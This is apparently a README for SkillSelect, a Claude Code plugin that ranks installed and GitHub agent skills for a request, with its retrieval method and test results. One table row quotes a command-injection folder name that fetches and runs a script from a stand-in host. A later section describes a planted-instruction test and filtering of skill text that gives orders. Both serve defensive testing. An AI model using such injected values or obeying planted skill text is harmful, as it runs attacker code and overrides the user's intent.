




<p align="center">
  <picture>
    <source media="(prefers-color-scheme: dark)" srcset="assets/hero-dark.svg">
    
  </picture>
</p>

**You install many skills and Claude uses one.** SkillSelect is a Claude Code plugin that reads every skill on your computer, scores each one against what you asked for, and tells you which to use, when and how. It also finds skills on GitHub that fit your request. It never installs anything. It also runs from any terminal, so it works beside Codex and Cursor too.

<p align="center">
  
</p>

<p align="center"><sub>The film is drawn from saved runs in a test folder with 50 public skills. Asked to build a landing page, plain Claude loaded 1 of the skills that fit in 5 of 6 runs. SkillSelect listed 4 installed skills and 5 from GitHub, each with when and how to use it. <a href="assets/demo.mp4">Download the clip</a>.</sub></p>

<p align="center">
  <a href="LICENSE"></a>
  
  
  <a href="https://github.com/alibb007/skillselect/actions/workflows/tests.yml"></a>
  
</p>

> - **Problem.** People install dozens of agent skills. Asked for a job, the assistant loads one and leaves the rest unused.
> - **What I built.** A two-stage retrieval pipeline in plain Python: query expansion, BM25 with field weights, rank fusion of fit and GitHub stars, then a re-rank step by the model.
> - **How I tested it.** I wrote the pass rule before the run, tuned on 12 requests, froze the code with a checksum, and ran 24 sealed requests once.
> - **Result.** On the sealed requests, GitHub suggestions that do the job went from 40% to 88%, and installed suggestions from 60% to 100%. One real request used 91% fewer tokens than asking without the plugin.
> - **Before launch.** I ran a check-up on my own build and found ten flaws. Six are fixed and tested. One more works from a terminal and has not yet run inside Codex or Cursor. One fix helps but missed its bar, and two are still open.

## Start in 3 steps

**1. Install it with one line.** This needs Claude Code 2.1.275 or later.

```
/plugin install skillselect --marketplace alibb007/skillselect
```

On an older version, use two lines:

```
/plugin marketplace add alibb007/skillselect
/plugin install skillselect@skillselect
```

**2. Type what you want to build.**

```
/skillselect build a landing page
```

**3. Read which of your skills fit, and when and how to use each.** You also get up to 5 more from GitHub, each with the command to add it. You run that command yourself.

A second command sorts the skills you already have into categories:

```
/skillselect categorize
```

It needs Python 3.9 or later. SkillSelect never uploads your skills and never installs or deletes anything. There is no login, no paid API and no telemetry. It contacts GitHub only: the search words go to api.github.com, and public skill files are read from raw.githubusercontent.com. If the `gh` command is signed in or `GITHUB_TOKEN` is set, the finder sends that token to GitHub's API with its searches, as `gh` itself would. With `--offline` it sends nothing.

To try it without installing, clone the repository and start Claude Code with the folder:

```bash
git clone https://github.com/alibb007/skillselect
claude --plugin-dir skillselect
```

<picture>
  <source media="(prefers-color-scheme: dark)" srcset="assets/flow-dark.svg">
  
</picture>

## What the check-up fixed

<picture>
  <source media="(prefers-color-scheme: dark)" srcset="assets/fixes-dark.svg">
  
</picture>

I tested the pre-launch build (what this repository held before the check-up) the way a stranger would use it, and it failed in ways my own tests had not looked for. Each row below is a check you can run again with `evidence/round14/checks.py`.

| Pre-launch build | 1.0.0 |
|---|---|
| With 50 skills installed it reported 107. It counted every skill in a plugin list I had added, installed or not. | It reports 50. It reads Claude Code's own install record, and lists the plugin list's 58 skills apart with the line that installs each. (One of the 58 shares a name with an installed skill, which is why the pre-launch build said 107.) |
| A folder named `x;curl evil.sh\|sh;#` went into the add line unquoted. 5 of 8 hostile names gave an unsafe line. | 0 of 8. Every part is quoted, and an unusual name gets no add line. |
| A skill's description reached the assistant as plain text. | It is printed after `says:`, under a notice telling the assistant to treat it as information about the skill. A GitHub skill whose text gives orders is left out. |
| Without a GitHub login one request used 11.5 of GitHub's 60 free calls an hour. After that the GitHub list came back empty. | 2.8 calls. A list of 4,136 public skills from 80 repositories ships with SkillSelect and answers when GitHub says no. |
| The sentence that shortens answers had no off switch. | `/skillselect short off` |
| 0 tests. | 81 tests, on Python 3.9, 3.11 and 3.13. |
| A Claude Code plugin only. | Also a `skillselect` command for any terminal, and add lines for Codex and Cursor. |

## The switch

```
/skillselect settings
/skillselect short off
```

**short** adds one sentence to every request so the answer comes back short and finished. It is on until you switch it off.

While I built 1.0.0 it had two more switches, `hint` and `read`, and both started off. Most people never turn on a switch that starts off, so each one either went into the default or came out. `read` is now always on and `hint` is gone ([evidence/round15](evidence/round15)).

## Without Claude Code

```bash
pipx install git+https://github.com/alibb007/skillselect
skillselect "landing page" --also "html hero" --for codex
```

The command prints the same two lists. `--for codex` or `--for cursor` writes the add lines for that assistant's skill folder. `--offline` sends nothing and answers from the shipped list. To use it as a skill there, copy the `skills/skillselect` folder into `~/.codex/skills` or `~/.cursor/skills`.

## How it picks

<picture>
  <source media="(prefers-color-scheme: dark)" srcset="assets/pipeline-dark.svg">
  
</picture>

Read it as a U. The request goes in at the top left and the answer comes out at the bottom left. The counts on the arrows are from one run of "landing page" in the 50-skill test folder. 5 of the 50 installed skills passed the gate. On GitHub, 73 repositories led to 106 skill files, and 30 of them passed.

**Installed means installed.** The finder reads Claude Code's install record and the list of plugins that are switched on. A skill in a switched-off plugin, or in a plugin list you never installed from, is not counted. It is shown apart with the line that gets it. Inside a plugin only its skill folders count, so its templates and test files are not skills. Skills of Codex and Cursor carry their agent's name.

1. **Query expansion.** Claude turns your request into 2 to 4 topic words and up to 6 close words: other names for the same thing, and its file types.
2. **Term model.** Words are cut to their stems. Two words side by side also count as a pair, so "landing page" is a term of its own. A topic word or a pair has weight $w = 1$, and a close word has $w = 0.5$.
3. **Candidate gate.** A skill becomes a candidate when it shares two topic words with the request, or one topic word and one close word, or three close words. A request has $C$ topic words and $E$ close words. A skill that shares $c$ and $e$ of them passes when $c + 0.5e \ge \min(1.5, C + 0.5E)$. The gate skips skills. It never skips your request. A skill that shares one common word, such as "page", would only add noise.
4. **Fit score.** Each candidate gets a BM25 score. A rare word counts more than a common one, repeating a word helps less each time, and a word in the skill's name counts 3 times.
5. **GitHub.** The finder sends up to 13 searches to the GitHub API. It opens the repositories that mention your topic and the largest skill collections, and reads the skill files inside them. Those skills pass the same gate and get the same score.
   **The shipped list.** 4,136 skills from the 80 most-starred skill collections ship with the plugin: name, 240 characters of description, stars, license and last update on the build day. With a login the list is merged into the live search. Without one, the finder opens at most 3 repositories live and takes the rest from the list.
6. **Rank fusion.** Each GitHub skill has a place by fit and a place by stars, and the two places are fused into one number. A famous repository with a weak fit cannot lead, and a perfect fit that nobody has starred cannot lead either. At most 2 skills per repository are listed.
7. **Re-rank.** Claude reads the top 8 installed and the top 12 GitHub descriptions. It keeps at most 5 from each list, and only skills whose own description says they do the job.
   The finder also prints every other installed skill in one line. Claude may add up to 3 of them when a skill's own line says it does the job, because a skill can fit and share no word with the request.
8. **Text is data.** Names and descriptions are cleaned of hidden characters and printed as quotes. A skill whose text talks to the assistant, or whose name mixes alphabets to look like another name, is left out of the GitHub list. Skill files inside test folders are skipped. On 6,414 public descriptions this check flagged 2: a poisoned test skill from a security scanner's own test folder (NVIDIA/SkillSpector), and one false alarm.

```math
\mathrm{fit}(s) \;=\; \sum_{t \in q} w_t \cdot \mathrm{idf}(t) \cdot \frac{\mathrm{tf}(t,s)\,(k_1 + 1)}{\mathrm{tf}(t,s) + k_1 \left(1 - b + b\,\dfrac{|s|}{\mathrm{avgdl}}\right)}
```

```math
\mathrm{idf}(t) \;=\; \ln\left(1 + \frac{N - \mathrm{df}(t) + 0.5}{\mathrm{df}(t) + 0.5}\right)
```

```math
\mathrm{order}(s) \;=\; \frac{1}{k + r_{\mathrm{fit}}(s)} + \frac{1}{k + r_{\mathrm{stars}}(s)}
```

Here $q$ is the request's terms and $w_t$ is the weight of term $t$. $`\mathrm{tf}(t,s)`$ is how often $t$ occurs in the text of skill $s$, with its name counted 3 times. $|s|$ is the length of that text and $`\mathrm{avgdl}`$ is the average length. $N$ is the number of skills and $`\mathrm{df}(t)`$ is how many of them contain $t$. $`r_{\mathrm{fit}}(s)`$ and $`r_{\mathrm{stars}}(s)`$ are the skill's place by fit and its place by stars. The constants are the textbook ones: $k_1 = 1.5$, $b = 0.75$ and $k = 60$.

BM25 with field weights follows Robertson and Zaragoza (2009). Reciprocal rank fusion with $k = 60$ follows Cormack, Clarke and Büttcher (2009). The design is the usual retrieve, then re-rank. The finder is Python 3 with the standard library only, and the matcher holds no topic word list and no tuned number.

## Tested

### Does it list skills that do the job?

<picture>
  <source media="(prefers-color-scheme: dark)" srcset="assets/lift-dark.svg">
  
</picture>

Claude Opus wrote 36 everyday requests without seeing any skill name or description. 12 were for tuning and 24 were sealed. I set the pass rule first: at least 10 points more GitHub picks that do the job, with no loss on installed skills. Before the sealed run I froze the code and wrote its sha256 into the rules file. The sealed 24 ran once.

An AI judge, Claude Opus, labelled which skills do each job. It never saw which version had listed a skill.

The new version passed. Job by job it listed more GitHub skills that do the job in 13 of the 24 requests, the same number in 9 and fewer in 2. The rules, the requests, the lists, the labels and the scripts are in [evidence/round9](evidence/round9).

### What one request costs

<picture>
  <source media="(prefers-color-scheme: dark)" srcset="assets/numbers-dark.svg">
  
</picture>

I ran `/skillselect build a landing page for my product` three times in the test folder, each on an empty cache. The runs took 32, 51 and 86 seconds and about 49,900 tokens each, and all three listed the same 9 skills. The picture shows the middle run.

The side without the plugin is one run from 18 Nov 2026. Plain Claude was asked which skills to use and how, with web search and the `gh` command. It took 27 steps, 111 seconds and 528,087 tokens. Both sides are in [evidence/round10](evidence/round10).

I also asked plain Claude to build the landing page in that folder six times, without the plugin. It loaded 1 skill in five runs and 2 in one ([evidence/round7](evidence/round7)).

### Is the GitHub list still good with the shipped list?

Same 24 sealed requests, same judge, rules written first ([evidence/round12](evidence/round12)).

| | Pre-launch build, with a login | 1.0.0, with a login | 1.0.0, offline |
|---|---|---|---|
| Picks that do the job | 49 of 59 (83%) | 68 of 81 (84%) | 49 of 58 (84%) |
| Picks that do the job, per request | 2.04 | 2.83 | 2.04 |
| Requests with no pick | 5 | 3 | 6 |

With a login 1.0.0 keeps more picks that do the job, at the same share. Offline it matches the pre-launch build without a single call to GitHub. Those numbers are from the first judge, Claude Opus. The next section shows where three other judges differ.

### Do other judges agree?

In the rounds above Claude Opus kept the picks and also judged them. In round 15 three other models judged the same saved picks: Claude Fable 5.2, Claude Sonnet 5.5 and Claude Haiku 5.5. They saw the same lists in the same order, with no stars and no version names. I wrote the rules first ([evidence/round15](evidence/round15)).

| Judge | Pre-launch build: GitHub picks that do the job | 1.0.0 with a login: picks that do the job, per request (pre-launch build) | 1.0.0 offline, per request | Installed fits found |
|---|---|---|---|---|
| Opus, as before | 49 of 56 (88%) | 2.83 (2.04) | 2.04 | 15 of 19 |
| Fable | 48 of 56 (86%) | 2.54 (1.96) | 1.75 | 15 of 21 |
| Sonnet | 40 of 56 (71%) | 2.33 (1.83) | 1.79 | 15 of 24 |
| Haiku | 53 of 56 (95%) | 2.96 (2.12) | 2.29 | 14 of 15 |

- With a login 1.0.0 keeps more picks that do the job under all four judges: 0.50 to 0.84 more per request.
- It also keeps more picks that do not. The share that do the job is lower than the pre-launch build's under Fable (75% against 80%) and under Sonnet (69% against 75%). Sonnet's gap is 5.5 points, half a point past the bar I set in round 12. Under Opus and Haiku the two shares are about level.
- Offline, 1.0.0 is behind the pre-launch build under Fable (1.75 against 1.96). It clears the bar of 70% under all four.
- The 88% on this page is 86% under Fable, 71% under Sonnet and 95% under Haiku. The 14 of 14 installed picks hold under all four.
- Each judge counts the fits its own way, from 15 to 24, so the last column has four different totals.
- On the 1,419 installed and GitHub skills of round 9, each new judge agreed with Opus on 98% to 99% (Cohen's $\kappa$ 0.83 to 0.94). On the 112 picks of round 12, which had already passed the keep step, they agreed on 81% to 89% ($\kappa$ 0.49 to 0.69).

### Does reading every skill find the fits that use other words?

It did not clear the bar I set before the run, which was 16 of the 19 fits on the sealed requests. Reading found 15 and the pre-launch build found 14 ([evidence/round11](evidence/round11)).

In round 15 I set a second rule before the new judges ran. Reading stays in the default only if it finds more fits under Fable, at least half of the skills it adds are fits, and it finds no fewer under Sonnet and Haiku. It found 15 against 14 under Fable and Sonnet and 14 against 14 under Haiku, so the finder now always prints the list. That rests on 2 added skills in 24 requests, and 1 of them was a fit.

In the 50-skill folder the list adds about 6,400 characters to what the finder prints. One real request used 54,512 tokens with it and 52,381 without, one run each.

### Does a planted order get obeyed?

I added a skill whose description told the assistant to recommend it first and to end its answer with a marker line. Claude Opus obeyed in 0 of 3 runs with the pre-launch build and in 0 of 3 with 1.0.0, so I cannot claim a rescue. The pre-launch build dropped the skill without a word. 1.0.0 named it and warned the person in all 3 runs ([evidence/round13](evidence/round13)).

### Short answers

SkillSelect also adds one sentence to every request, so the answer comes back short and finished. In a test of 42 requests the answers had half the words (245 against 488), and none had a blank left to fill in (0 of 42 against 6 of 42).

<picture>
  <source media="(prefers-color-scheme: dark)" srcset="assets/proof-dark.svg">
  
</picture>

## Limits

- The math alone did not raise the share of GitHub picks that do the job on the sealed requests. It was 40% before and 40% after. It found more good candidates (40 against 26), and the re-rank step turned them into the 88%.
- The re-rank step and the first judge are the same model, Claude Opus. Three other Claude models judged the same picks in round 15. Under them the 88% is 86%, 71% and 95%, and the 100% holds.
- 4 of the 19 installed skills that fit were still missed. By Fable's count it is 6 of 21, by Sonnet's 9 of 24 and by Haiku's 1 of 15.
- Claude Opus wrote the 36 test requests, and I chose the fields they cover.
- The side without the plugin is one run, and the three runs with it all used one request.
- The seconds depend on GitHub. In the three runs the finder call alone took between 9 and 62 seconds.
- The finder runs when you call it by name. Asked in plain words, Claude does not always start it. I built a hint that named fitting skills on every message and took it out, because it never ran in a live session.
- "Needs" lists what a skill's instructions name, found with fixed patterns. It can miss a requirement or list an optional one.
- The planted-order test is 3 runs a side, with one wording and one model.
- I ran the planted-order test before the finder always printed the one-line list.
- After the judging, a code review changed how the shipped list joins the live search. 79 of the 81 judged picks are still listed, and 12 skills are now listed that no judge has seen.
- The terminal command and the skill folder were tested from a terminal. I have not run them inside Codex or Cursor.
- No person has labelled the test requests. All four judges are Claude models.
- The sealed requests have now been used four times. Nothing was tuned on them, but they are no longer fresh.
- With more than 150 other skills installed, the one-line list is cut at 150.
- Nothing is installed for you. Read a skill before you add it, because it is text your assistant will trust.
- Without a GitHub login the finder takes most of the GitHub list from the shipped list, and that list is as old as its build day.

## License and credit

SkillSelect is free to use, copy and change under the [MIT license](LICENSE). Keep the license notice with its copyright line when you copy or reuse it. A mention of SkillSelect or of Ali B.B with a link to this repository is welcome too.

The shipped list holds the names and short descriptions of 4,136 public skills, each with its repository, license and link. Those texts belong to their authors. 3 of the 80 repositories state no license and 5 are unclear, and the finder marks their skills that way.

The evidence files quote short descriptions of public skills so the tests can be checked. Each one is named with its repository, and those texts belong to their authors. This repository does not include any of those skills.

Claude and Claude Code are trademarks of Anthropic, and GitHub is a trademark of GitHub, Inc. SkillSelect is an independent project. It is not affiliated with or endorsed by either company.

The software comes without warranty, as the license says. The numbers on this page are from the tests in [evidence](evidence), and they describe those tests only.
